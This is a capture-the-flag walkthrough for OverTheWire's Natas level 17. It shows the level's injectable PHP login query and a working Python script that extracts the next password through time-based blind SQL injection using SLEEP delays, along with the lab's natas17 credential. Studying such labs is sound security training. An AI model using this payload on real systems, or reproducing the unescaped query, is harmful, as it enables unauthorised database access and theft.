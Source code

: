 Level url: [http://natas17.natas.labs.overthewire.org/](http://natas17.natas.labs.overthewire.org/)

**Steps to Solve**
1. Step 1 - Click `View sourcecode` and we can see the `php` code:
```php
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas17', '<censored>');
    mysqli_select_db($link, 'natas17');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {}
?>
```
**Now it doesn't have any messages for us to know if we get the correct character.**

2. Step 2 - Use my `python` code in order to the correct password:
```python
import requests, string

url = "http://natas17.natas.labs.overthewire.org/"
auth = ("natas17", "EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC")

charset = string.ascii_letters + string.digits # a-z, A-Z, 0-9

found = ""
for pos in range(1, 33):
    for ch in charset:
        payload = f'natas18" AND IF(BINARY SUBSTRING(password,{pos},1)="{ch}", SLEEP(5), 0) -- -'
        r = requests.post(url, data={"username": payload}, auth=auth)
        if (r.elapsed.total_seconds() > 5):
            found += ch
            print(f"[+] Found so far: {found}")
            break
    else:
        raise SystemExit(f"No match at position {pos}, try a larger SLEEP or lower threshold.")

print(f"\n[✅] Final password for natas18: {found}")
```
- Idea: `sleep(5)` when find the correct character and check `r.elapsed.total_seconds() > 5` in order to get that character.

